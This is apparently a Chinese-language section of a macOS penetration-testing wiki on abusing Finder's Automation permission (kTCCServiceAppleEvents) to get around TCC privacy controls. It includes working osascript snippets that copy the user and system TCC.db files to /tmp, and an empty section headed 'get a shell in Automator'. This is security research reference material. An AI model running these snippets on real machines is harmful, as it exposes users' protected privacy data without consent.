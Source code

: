 ### 自动化（Finder）到 FDA\*

自动化权限的TCC名称是：**`kTCCServiceAppleEvents`**\
此特定的TCC权限还指示了可以在TCC数据库中管理的**应用程序**（因此权限不允许仅管理所有内容）。

**Finder** 是一个**始终具有 FDA** 的应用程序（即使在 UI 中看不到），因此如果您对其具有**自动化**权限，您可以滥用其权限**执行一些操作**。\
在这种情况下，您的应用程序需要对 **`com.apple.Finder`** 具有 **`kTCCServiceAppleEvents`** 权限。

{% tabs %}
{% tab title="窃取用户的 TCC.db" %}
```applescript
# This AppleScript will copy the system TCC database into /tmp
osascript<<EOD
tell application "Finder"
set homeFolder to path to home folder as string
set sourceFile to (homeFolder & "Library:Application Support:com.apple.TCC:TCC.db") as alias
set targetFolder to POSIX file "/tmp" as alias
duplicate file sourceFile to targetFolder with replacing
end tell
EOD
```
{% endtab %}

{% tab title="窃取系统 TCC.db" %}
```applescript
osascript<<EOD
tell application "Finder"
set sourceFile to POSIX file "/Library/Application Support/com.apple.TCC/TCC.db" as alias
set targetFolder to POSIX file "/tmp" as alias
duplicate file sourceFile to targetFolder with replacing
end tell
EOD
```
{% endtab %}
{% endtabs %}

您可以滥用这个漏洞来**编写自己的用户 TCC 数据库**。

{% hint style="warning" %}
有了这个权限，您将能够**要求 Finder 访问 TCC 受限文件夹**并提供文件，但据我所知，您**无法让 Finder 执行任意代码**来充分滥用他的 FDA 访问权限。

因此，您将无法滥用完整的 FDA 能力。
{% endhint %}

这是获取 Finder 上的自动化权限的 TCC 提示：

<figure><img src="../../../../.gitbook/assets/image (24).png" alt="" width="244"><figcaption></figcaption></figure>

{% hint style="danger" %}
请注意，因为**Automator** 应用程序具有 TCC 权限 **`kTCCServiceAppleEvents`**，它可以**控制任何应用程序**，比如 Finder。因此，拥有控制 Automator 的权限，您也可以使用以下代码控制**Finder**：
{% endhint %}

<details><summary>在 Automator 中获取一个 shell</summary></details>

同样适用于**脚本编辑器应用程序**，它可以控制Finder，但是使用AppleScript，你无法强制其执行脚本。
